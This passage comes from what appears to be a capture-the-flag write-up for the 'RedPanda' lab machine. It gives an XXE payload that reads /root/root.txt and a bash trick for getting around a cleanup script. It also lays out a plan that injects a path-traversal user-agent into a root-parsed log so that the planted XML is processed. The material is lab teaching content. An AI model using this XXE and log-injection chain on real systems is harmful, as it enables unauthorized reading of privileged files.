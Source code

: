 ```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE credits [
  <!ENTITY xxe SYSTEM "file:///root/root.txt">
]>
<credits>
  &xxe;
</credits>
```

Now, as if that plan wasn't complicated enough, there is the cleanup.sh script to work around. I remembered checking it after I was watching pspy. Here are the contents:

```bash
woodenk@redpanda:~$ less /opt/cleanup.sh
#!/bin/bash
/usr/bin/find /tmp -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /var/tmp -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /dev/shm -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /home/woodenk -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /tmp -name "*.jpg" -exec rm -rf {} \;
/usr/bin/find /var/tmp -name "*.jpg" -exec rm -rf {} \;
/usr/bin/find /dev/shm -name "*.jpg" -exec rm -rf {} \;
/usr/bin/find /home/woodenk -name "*.jpg" -exec rm -rf {} \;
```

It deletes all the xml and jpg files from the directories we can write to! Gah!

No worries. I'll just put a fake extension (.hide) on the end of the files I need and strip it off right before I perform the attack. I'll change the file extensions with a simple bash rename:

```bash
for f in *.hide; do cp $f ${f%.hide}; done
```



### The Plan

1. host my custom **myphoto.jpg.hide** and **xxe_creds.xml.hide** on a python webserver running on port 8080
2. download those files to the target machine (into woodenk's home directory) using curl
3. strip off the .hide file extensions, as shown above, then quickly proceed to step 4!
4. make a request to http://redpanda.htb using a modified user-agent in the http header (ending in ||/../../../../../../home/woodenk/myphoto.jpg  ), thus inserting the fake uri into redpanda.log. The fake URI points to the custom photo, and the Artist tag within the photo points to the xxe_creds.xml file, which itself contains the xxe attack, which should leak the contents of /root/root.txt. 
5. wait for LogParser to run (which will run as root, as seen in pspy)
6. read the contents of xxe_creds.xml to find the root flag

### Executing the Plan

I performed steps 1-3 as described. 

For step 4, I used Burp Repeater.

> Sidenote: my python webserver hosting the myphoto.jpg.hide and xxe_creds.xml.hide was interfering with my Burp proxy. To use Burp, I had to turn off the python webserver. 
